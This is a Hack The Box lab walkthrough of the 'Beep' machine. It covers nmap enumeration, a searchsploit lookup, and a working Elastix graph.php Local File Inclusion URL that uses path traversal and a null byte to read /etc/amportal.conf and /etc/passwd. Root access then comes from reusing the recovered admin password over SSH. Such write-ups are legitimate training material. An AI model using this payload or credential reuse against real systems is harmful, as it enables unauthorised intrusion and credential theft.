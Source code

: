 ```yaml
---
layout: post
author: dalemazza
title: HTB - Beep OSCP Walkthrough
date: 2020-07-04
category: HTB
tags: HTB
published: true
---
```


<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/beep.jpg">
</p>
Hi guys today I am tackling beep, One of the oldest boxes on HTB. I will be doing this box without metasploit, OSCP style. This box is a Linux box rated easy.  

This box includes the following techniques:  
* nmap
* searchsploit
* Local File Inclusion

### Quick overview  

This box is running a webserver that has elastix installed on. After trying the default credentials I could not get access. I searched for exploits relating to elastix and found a few. After trying many of them one finally worked. This exploit took me straight to Root!

I Start **nmap** scan as per normal.    
`sudo nmap -A -T4 -p- 10.10.10.7`
```
Nmap scan report for 10.10.10.7
Host is up (0.012s latency).

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey:
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN,
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: STLS PIPELINING UIDL RESP-CODES TOP LOGIN-DELAY(0) AUTH-RESP-CODE USER IMPLEMENTATION(Cyrus POP3 server v2) EXPIRE(NEVER) APOP
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: X-NETSCAPE NAMESPACE ACL Completed THREAD=ORDEREDSUBJECT CHILDREN CATENATE BINARY IMAP4rev1 MAILBOX-REFERRALS SORT=MODSEQ ID STARTTLS LISTEXT URLAUTHA0001 LIST-SUBSCRIBED IDLE CONDSTORE ANNOTATEMORE RENAME UIDPLUS ATOMIC RIGHTS=kxte IMAP4 LITERAL+ UNSELECT OK QUOTA NO MULTIAPPEND SORT THREAD=REFERENCES
443/tcp   open  ssl/https?
|_ssl-date: 2020-07-04T16:22:18+00:00; +3m04s from scanner time.
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-server-header: MiniServ/1.570
|_http-title: Site doesnt have a title (text/html; Charset=iso-8859-1).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|media device|PBX|WAP|specialized|printer|proxy server
Running (JUST GUESSING): Linux 2.6.X|2.4.X (95%), Linksys embedded (94%), Riverbed RiOS (94%), HP embedded (94%), WebSense embedded (93%), Gemtek embedded (93%)
OS CPE: cpe:/o:linux:linux_kernel:2.6.18 cpe:/o:linux:linux_kernel:2.6.27 cpe:/o:linux:linux_kernel:2.4.32 cpe:/h:linksys:wrv54g cpe:/o:riverbed:rios cpe:/o:linux:linux_kernel:2.6 cpe:/h:gemtek:p360
Aggressive OS guesses: Linux 2.6.18 (95%), Linux 2.6.9 - 2.6.24 (95%), Linux 2.6.9 - 2.6.30 (95%), Linux 2.6.27 (likely embedded) (95%), Linux 2.6.20-1 (Fedora Core 5) (95%), Linux 2.6.27 (95%), Linux 2.6.30 (95%), Linux 2.6.5 - 2.6.12 (95%), Linux 2.6.5-7.283-smp (SuSE Enterprise Server 9, x86) (95%), Linux 2.6.8 (Debian 3.1) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com

Host script results:
|_clock-skew: 3m03s

TRACEROUTE (using port 111/tcp)
HOP RTT      ADDRESS
1   11.57 ms 10.10.14.1
2   11.72 ms 10.10.10.7

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/
```

That's a lot of stuff to enumerate! I like to start at port 80.  

The web server served me this page

<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/1.png">
</p>  
### Fig 1. Elastix login page  
This page is from elastix. Elastix is an unified communications server software that brings together IP PBX, email, IM, faxing and collaboration functionality. It has a Web interface and includes capabilities such as a call center. After trying to default credentials I could not get access. Let's see if searchsploit has any exploits.

***
### What is searchsploit?
Searhsploit is a database of exploits. You can give it a program with or without the version and it will go out to several places to see if any exploits are found for that software. The results also give you the scripts used to exploit it.

```
searchsploit Elastix
```


<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/3.png">
</p>  
#### Fig 2. Searchsploit results  

Searchsploit has found a few exploits. I struggled to find the version of the the software running so I tried all the exploits. Eventually the **Elastix 2.2.0 - 'graph.php' Local File Inclusion** exploit worked!

Upon looking up the exploit on exploit DB [here](https://www.exploit-db.com/exploits/37637). I found that the exploit had a python script that executes an **LFI** in the graph.php current language path. I didn't need the whole script so i took the **LFI** location and tried it.  

<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/lfi.png">
</p>  
#### Fig 3. LFI location  

Now lets see if the exploits runs.

```
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../etc/amportal.conf%00&module=Accounts&action
```
<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/4.png">
</p>  
#### Fig 3. LFI exploits

It works! The page has a lot of text on the screen so i search for "pass"

<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/5.png">
</p>  
#### Fig 3. Admin credentials

Looks like the we have some admin credentials. One thing I notice is that this page contains the user and passwords for several programs, The same password and username keeps popping up, maybe he use's that for everything?

Let's see what `/etc/passwd` gives us

<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/6.png">
</p>  
#### Fig 4. etc/passwd

Here we can see that there is a user called 'fanis', we have not got a password for that yet. Let's be cheeky and see if I can read the `root.txt`

<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/7.png">
</p>  
#### Fig 5. No access to root.txt

Worth a shot! Let's see if the admin reuses his credentials
```
ssh root@10.10.10.7
```
<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/10.png">
</p>  
#### Fig 6. SSH error

That is a weird error. After googling I found that this happens when connecting to old deprecated versions of **SSH**. We have to use a flag to connect to this machine.
```
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 root@10.10.10.7
```
<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/8.png">
</p>  
#### Fig 7. root

It worked! Looks like we have root aswell! Time to get those flags!
```
cat root.txt

cat /home/fanis/user.txt
```

This was a fairly easy box, There are many methods to root this box but this is the one I found. Thanks
